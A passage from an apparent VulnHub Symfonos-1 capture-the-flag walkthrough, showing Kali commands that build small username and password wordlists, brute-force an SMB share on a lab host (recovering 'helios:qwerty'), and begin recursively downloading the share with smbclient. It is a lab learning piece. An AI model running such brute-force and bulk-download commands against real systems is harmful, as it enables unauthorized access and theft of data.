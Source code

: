 	![](images/Pasted%20image%2020220124031308.png)
3. Generate username & password wordlist
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123/loot/smb]
	└─# cat > usernames.txt <<EOF
	> helios
	> Helios
	> zeus
	> Zeus
	> EOF
	┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123/loot/smb]
	└─# cat > passwords.txt <<EOF
	> epidioko
	> qwerty
	> baseball
	> EOF
	```
4. [Bruteforce SMB Fileshare](https://github.com/yufongg/SMB-Fileshare-Bruteforce)
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123/loot/smb]
	└─# ./smb_bruteforce.sh $ip usernames.txt passwords.txt helios
	Try: helios + epidioko
	Try: helios + qwerty
	Found Valid Combination helios:qwerty
	Try: helios + baseball
	Try: Helios + epidioko
	Try: Helios + qwerty
	Found Valid Combination Helios:qwerty
	Try: Helios + baseball
	Try: zeus + epidioko
	Try: zeus + qwerty
	Try: zeus + baseball
	Try: Zeus + epidioko
	Try: Zeus + qwerty
	Try: Zeus + baseball
	```
	![](images/Pasted%20image%2020220124031655.png)
5. Download all files from `helios` fileshare
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123]
	└─# smbclient //$ip/helios -U helios -c 'prompt;recurse;mget *'